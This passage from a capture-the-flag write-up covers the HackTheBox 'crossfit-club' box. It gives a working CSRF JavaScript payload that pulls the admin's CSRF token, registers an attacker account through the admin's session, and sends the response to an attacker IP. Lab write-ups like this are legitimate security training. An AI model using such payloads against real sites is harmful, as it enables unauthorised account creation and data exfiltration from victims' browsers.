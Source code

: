 And with csrf token, get "Only administrators can register accounts." message.

![](screenshots/admin-only-signup.png)

## CSRF

### Account Registration

We already make admin to connect to our http server from dns hijacking. Here we can use cross site request forgery to execute javascript from admin browser which register new account on behalf of admin.

Create a javascript that execute from victim's browser and register account. *[from ippsec video](https://www.youtube.com/watch?v=OUjdPa11tGw&t=4770s)*
```php
<html>
<script>

// retrive csrf token from admin login session.
var req1 = new XMLHttpRequest();
req1.open("GET", "http://crossfit-club.htb/api/auth", false);
req1.withCredentials = true;
req1.send();
var obj = JSON.parse(req1.response);

// register new account from admin browser.
var req2 = new XMLHttpRequest();
req2.open("POST", "http://crossfit-club.htb/api/signup", false);
req2.setRequestHeader("Content-Type", "application/json");
req2.setRequestHeader("X-CSRF-TOKEN", obj.token);
req2.withCredentials = true;
const data = JSON.stringify( {"username": "poorduck", "email": "poorduck@duckland.duck", "password": "p00rduck", "confirm": "p00rduck"} );
req2.send(data);

// send signup response to attacker's server.
var req3 = new XMLHttpRequest();
req3.open("GET", "http://10.10.15.71/?" + btoa(req2.response));
req3.send();

</script>
</html>
```
